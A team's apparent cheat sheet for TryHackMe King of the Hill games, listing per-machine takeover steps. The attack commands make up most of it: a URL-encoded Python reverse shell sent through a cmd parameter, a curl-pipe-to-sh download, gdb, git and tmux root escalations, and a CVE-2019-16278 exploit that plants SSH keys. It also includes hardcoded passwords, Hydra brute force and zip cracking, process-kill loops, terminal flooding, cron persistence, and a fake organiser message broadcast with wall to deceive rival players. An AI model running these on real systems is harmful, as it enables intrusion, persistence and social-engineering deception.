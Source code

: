 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
find all admin commands:

`find / -perm -u=s -type f 2>/dev/null`

run linPEAS.sh(tool that finds potential privilege escalation points)


`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  
find sudo commands
`sudo -l`
# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  
`telnet <IP> 46969`

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
sudo chmod -xs vim.basic  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit  
be root  
copypaste these in place of shrek's account in /etc/shadow  
shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::  
you now have shrek:onionshavelayers  
make shrek a sudoer  
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *  
grab the flag if someone else hasn't already  
sudo systemctl stop httpd  
sudo systemctl stop tomcat  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"  
```
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon  
```
change password  
```
killall node(make sure to ssh first)  
chmod /bin/cp 000      
```
???  
profit      

## production:  
navigate to `ftp://anonymous@<ip>:21`  
download id_rsa and the flag, put the flag in  
```
chmod 600 id_rsa
ssh -i id_rsa ashu@<ip>
sudo su skidy
sudo git -p help config
!/bin/sh
```
you have root now, become king
afterwards stuff
```
sudo chmod -sx /usr/lib/git-core/git
```

## Fortune:  
Requires: fcrackzip  
```
nc <BOX_IP> 3333  
```
Returns base 64 hash of a file.    
Go here https://base64.guru/converter/decode/file and get the zip file.  
```
fcrackzip -v -u -D -p <location of rockyou.txt> application.zip  
```
Open the zip with the password you got.  Should contain password for fortune account.  
```
ssh fortuna@<BOX IP>  
sudo pico /etc/sudoers  
```
Replace pico in sudoers file with ALL. (e.g. fortuna    ALL=(ALL:ALL) ALL)  
`sudo su`  
you're root  
stuff to do:   
	change password to fortuna.  
	Remove fortuna from /etc/sudoers and add another user that you have credentials for. 
	
## Lion:
Requires: cve2019-16278.py(file in github), Hydra

```ssh-keygen```

When generating the key, leave the passphrase empty.  This can be done beforehand.

`cat <Your Key Name>.pub` (e.g. cat keygen.pub)

```python2 cve2019_16278.py <KOTH IP> 8080 "mkdir /home/gloria/.ssh; echo '<YOUR *.pub file data>' > /home/gloria/.ssh/authorized_keys"```

Replace <YOUR \*.pub file data> with what you got from the cat.
```
ssh -i <YOUR ssh-keygen FILE> gloria@<KOTH IP> -p 1337 (e.g. ssh -i keygen gloria@<KOTH IP> -p 1337)
/usr/bin/tmux -S /.dev/session
```
You are Now ROOT

Flag Locations
```
/home/gloria/user.txt	 
/home/marty/user.txt	Reversed
/home/alex/user.txt	Rot13
/root/.flag	 
/opt/code/server.py	 
MySQL: db-> blog, table-> users, id-> 140	 
```
Brute force MYSQL Password with Hydra
```
hydra -l root -P /usr/share/wordlists/rockyou.txt <MACHINE_IP> mysql
```

PATCHING
1. Kill Nostromo, and replace with new server.
2. Apply LFI Patch on port 5555.
3. Patch insecure file upload.
4. Change password, do the usual things.


# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &   
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



